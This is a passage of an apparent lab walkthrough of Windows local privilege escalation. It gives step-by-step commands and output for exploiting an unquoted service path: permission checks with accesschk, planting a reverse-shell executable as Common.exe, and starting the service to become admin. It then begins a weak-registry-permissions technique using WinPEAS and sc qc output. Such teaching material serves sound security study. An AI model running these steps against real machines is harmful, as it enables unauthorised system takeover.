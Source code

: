 - The output here clearly specifies that **No quotes and Space Detected** so we can conclude that we can exploit this particular service using **USP**
- And to gather more information regarding service use `sc qc <service>`
- Now let's check the permission for this particular location `C:\Program Files\Unquoted Path Service` using `accesschk`, so run `accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"`. Output:

```
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

```

- We have read and write permission.
- Now we'll create a payload and paste it in `C:\Program Files\Unquoted Path Service`, thru `copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`, here I'm naming with a different name which has some advantage with alphabetical order as well.
- Now start the service, `sc start unquotedsvc`, we're admin!!!

---

#### Weak Registry Permissions:

- Here we'll try to exploit services with weak registry permissions.
- to look for we need to make use of `Winpeas` with `servicesinfo` option. The output looks similar to this

```
����������͹ Looking if you can modify any service registry
� Check if you can modify the registry of a service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-permissions                                                                                          
    HKLM\system\currentcontrolset\services\regsvc (Interactive [FullControl])

```

- No we go the name of service which is `regsvc`, so lets dig deep about this service, so run `sc qc regsvc` and the output is,

```
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```
